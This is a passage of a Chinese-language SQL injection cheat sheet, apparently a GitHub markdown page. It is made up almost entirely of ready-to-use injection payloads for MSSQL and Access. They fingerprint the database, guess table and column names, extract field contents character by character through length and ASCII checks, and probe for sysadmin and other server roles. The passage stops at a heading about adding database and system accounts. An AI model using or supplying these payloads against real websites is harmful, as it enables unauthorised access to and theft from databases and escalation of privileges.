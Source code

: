 #### 3. 判断数据库系统

```
id=1 and (select count(*) from sysobjects)>0 ;--		mssql
id=1 and (select count(*) from msysobjects)>0 ;--		access
```

如果上述语句正常，则可能是sa权限

#### 4. 注入参数是字符

```
id=1'and [查询条件] and '' = '
```

#### 5. 搜索没过滤参数的

```
id=1'and [查询条件] and '%25'='
```

#### 6. 猜数表名

```
id=1 and (select count(*) from [表名])>0 ;--
```

#### 7. 猜字段

```
id=1 and (select count([字段名]) from [表名])>0 ;--
```

#### 8. 猜字段中记录长度

```
id=1 and (select top 1 len([字段名]) from [表名])>0 ;--
```

#### 9. 猜字段的ascii值

```
id=1 and (select top 1 asc(mid([字段名], 1, 1)) from [表名])>0 ;--				access
id=1 and (select top 1 unicode(substring([字段名], 1, 1)) from [表名])>0 ;--				mssql
```

#### 10. 测试权限结构

```
id=1 and 1=(select IS_SRVROLEMEMBER('sysadmin'));--
id=1 and 1=(select IS_SRVROLEMEMBER('serveradmin'));--
id=1 and 1=(select IS_SRVROLEMEMBER('setupadmin'));--
id=1 and 1=(select IS_SRVROLEMEMBER('securityadmin'));--
id=1 and 1=(select IS_SRVROLEMEMBER('diskadmin'));--
id=1 and 1=(select IS_SRVROLEMEMBER('bulkadmin'));--
id=1 and 1=(select IS_SRVROLEMEMBER('db_owner'));--
```

#### 11. 添加mssql和系统的账户
